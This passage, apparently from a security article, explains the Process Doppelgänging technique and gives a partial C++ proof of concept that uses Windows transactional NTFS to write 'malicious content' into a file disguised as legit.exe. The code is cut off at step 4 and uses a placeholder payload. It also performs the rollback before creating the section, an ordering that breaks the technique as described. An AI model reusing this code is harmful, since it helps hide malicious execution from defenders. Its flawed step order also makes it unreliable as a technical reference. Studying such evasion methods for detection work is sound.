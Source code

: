 - **Resume Execution:** The main thread is resumed, allowing the doppelgänged process to run.

- **Proof of Concept by Liberman and Kogan:**

In their demonstration, Liberman and Kogan showcased the entire flow of the Doppelgänging technique. Their approach highlighted the potential of this method to discreetly execute malicious code by leveraging inherent Windows functionalities.

```
#include <windows.h>

#include <iostream>

#include <winternl.h>

int main() {

    // Step 1: Create a transaction

    HANDLE hTransaction = CreateTransaction(NULL, 0, 0, 0, 0, 0, NULL);

    if (hTransaction == INVALID_HANDLE_VALUE) {

        std::cerr << "Failed to create transaction." << std::endl;

        return 1;

    }

    // Step 2: Create a transacted file with malicious content

    HANDLE hFile = CreateFileTransacted(L"legit.exe", GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL, hTransaction, NULL, NULL);

    if (hFile == INVALID_HANDLE_VALUE) {

        std::cerr << "Failed to create transacted file." << std::endl;

        CloseHandle(hTransaction);

        return 1;

    }

    const char* maliciousCode = "...";  // Replace with actual malicious code

    DWORD bytesWritten;

    WriteFile(hFile, maliciousCode, strlen(maliciousCode), &bytesWritten, NULL);

    CloseHandle(hFile);

    // Step 3: Rollback the transaction, restoring the original file

    if (!RollbackTransaction(hTransaction)) {

        std::cerr << "Failed to rollback transaction." << std::endl;

        CloseHandle(hTransaction);

        return 1;

    }

    // Step 4: Create a section from the transacted file
```